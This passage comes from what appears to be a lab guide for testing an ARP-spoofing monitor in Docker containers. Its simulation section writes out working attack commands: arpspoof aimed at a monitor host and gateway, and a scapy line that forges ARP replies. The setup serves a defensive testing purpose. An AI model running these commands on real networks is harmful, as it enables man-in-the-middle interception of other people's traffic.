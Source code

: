 **Step 7: Cleanup**
```cmd
deactivate  # Exit virtual environment
```

---

## 5. How to Simulate ARP Attack

### Setup Attack Simulation:

**Terminal 1: Start Monitor (WSL)**
```bash
./wsl-manager.sh setup
```

**Terminal 2: Create Attacker Container (WSL)**
```bash
# Create attacker on same network
docker run -it --name attacker \
  --net custom_net --ip 192.168.6.132 \
  --cap-add=NET_RAW --cap-add=NET_ADMIN \
  ubuntu:22.04 /bin/bash
```

**Inside Attacker Container:**
```bash
# Install tools
apt-get update
apt-get install -y dsniff arpspoof nmap

# Perform ARP spoofing attack
arpspoof -i eth0 -t 192.168.6.131 192.168.6.1
# This tells monitor (131) that attacker is the gateway

# Or use scapy for ARP attack
python3
>>> from scapy.all import *
>>> send(ARP(op=2, pdst="192.168.6.131", hwdst="ff:ff:ff:ff:ff:ff"))
```

**Terminal 3: Analyze Results (Windows)**
```cmd
analyze.bat
# You'll see the ARP spoofing in the results!
```

---

## 6. Complete Attack Simulation Workflow

### Diagram:
```
┌────────────────────────────────────────────────┐
│         Docker Network (192.168.6.0/24)        │
│                                                │
│  ┌──────────────┐         ┌──────────────┐   │
│  │  Attacker    │ ──ARP─→ │  Monitor     │   │
│  │  .132        │  Spoof  │  .131        │   │
│  │              │         │  (Captures!) │   │
│  └──────────────┘         └──────────────┘   │
│         │                        │            │
│         └────── Traffic ─────────┘            │
└────────────────────────────────────────────────┘
                    ↓
          Windows Analysis (analyze.bat)
```